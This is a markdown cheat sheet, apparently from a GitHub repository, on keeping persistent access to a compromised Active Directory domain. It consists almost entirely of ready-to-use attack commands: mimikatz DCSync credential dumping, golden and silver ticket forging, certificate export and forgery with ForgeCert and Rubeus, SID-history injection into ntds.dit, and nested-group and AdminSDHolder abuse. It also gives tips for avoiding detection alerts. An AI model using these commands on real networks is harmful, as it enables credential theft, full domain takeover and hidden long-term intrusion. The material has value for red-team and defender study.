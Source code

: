 
# #Persistence with Credentials:
### The goal then is to persist with near-privileged credentials.
  - **Credentials that have local administrator rights on several machines**
  - **Service accounts that have delegation permissions**
  - **Accounts used for privileged AD services**

### there are many ways to dump credentials or hijack sessions.
for example:

## DCSync:
```
  - mimikatz # lsadump::dcsync /domain:<Domain-name> /all
```

# #Persistence with Tickets:
  - **Golden Tickets**
  - **Silver Tickets**

### Generate Golden Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/krbtgt** -The NTLM hash of the KRBTGT account.
  - **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
  - **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
 - after executing this, the ticket is loaded into memory and we can access privileged resources in the domain

### Generate Silver Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/target** - The hostname of our target server. Let's do SERVERname.sub.DomainName.com, but it can be any domain-joined host.
  - **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of SERVERname$. The $ indicates that it is a machine account.
  - **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
- after executing this, the ticket is loaded into memory and we can access a specific privileged resources in the domain


# #Persistence with Certificates:
  - **view the Stored certificates on the DC**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine
  ```
  - **patch memory to make private keys exportable**
  ```
  mimikatz # crypto::capi
  mimikatz # crypto::cng
  ```
  - **Use mimikatz to Export the certificates:**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine /export
  # now we have PFX or DER file
  ```
  - **if we have the private key and root CA certificate, we can forge a Client Authenticate certificate for any user we want.**
  ```
  ForgeCert.exe --CaCertPath Filename.pfx --CaCertPassword <filepassword> --Subject CN=User --SubjectAltName Administrator@<FQDN> --NewCertPath fullAdmin.pfx --NewCertPassword Password123
  ```
  - **We can use Rubeus to request a TGT using the certificate**
  ```
    Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<certFile> /password:<certFile-password> /outfile: /domain:<DomainName> /dc:<DC-IP>
  ```
  - **Use mimikatz to use TGT to Authenticate to LogonServer**
  ```
  mimikatz # kerberos::ptt administrator.kirbi
  mimikatz # exit
  # Done! we have the session.
  ```
  
  # #Persistence with SID History:
  ## Notes:
      - Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group
      - but our account can simply be a normal user account with membership only to the Domain Users group.
  ### operations:
  -  let's make sure that our low-privilege user does not currently have any information in their SID history
      ```ps1
        Get-ADUser <your ad username> -properties sidhistory,memberof
      ```
  - Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:
      ```ps1
        Get-ADGroup "Domain Admins"
      ```      
  - we will use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file
      ```ps1
        Stop-Service -Name ntds -force
        Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit
        Start-Service -Name ntds
      ```
      
  # #Persistence with Group Memebership (Nested Groups):
  ## Notes:
  - Groups that provide local administrator rights are often not monitored as closely as protected groups. With local administrator rights to the correct hosts through group membership of a network support group, we may have good persistence that can be used to compromise the domain again.
  - It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership over Group Policy Objects (GPOs), can be just as good for persistence
  - This also becomes a monitoring problem. Let's say, for instance, we have an alert that fires off when a new member is added to the Domain Admins group. That is a good alert to have, but it won't fire off if a user is added to a subgroup within the Domain Admins group
  - Rather than adding ourselves to a privileged group that would raise an alert, we add ourselves to a subgroup that is not being monitored.
  
    
      
# #Persistence with ACLs:
## AD group Templates (AdminSDHolder):
- we should add our low-priv user to this group and give it prefered access that we want:
```
Server-manager -> active directory users and computers -> <DomainName> -> System -> AdminSDHolder
# open the properties for this group and navigate to security tab and add the user and give its permissions

```
  
    
      
      
      
      
      
  
  
